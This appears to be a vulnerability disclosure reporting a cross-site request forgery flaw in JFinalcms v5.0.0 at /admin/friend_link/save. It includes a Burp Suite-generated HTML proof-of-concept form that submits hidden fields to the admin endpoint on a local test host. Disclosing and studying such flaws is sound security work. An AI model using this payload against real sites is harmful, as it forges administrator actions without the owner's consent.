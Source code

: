 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/save

![图片](https://github.com/cui2shark/cms/assets/52313275/9f5cbaca-0013-4453-8c98-8eb250f8ba98)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/02ce7b20-04af-45d9-8096-507426d6fae2)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/save" method="POST">
      <input type="hidden" name="gid" value="" />
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/c56cb37e-2dc1-4a5a-b966-575fc1436984)
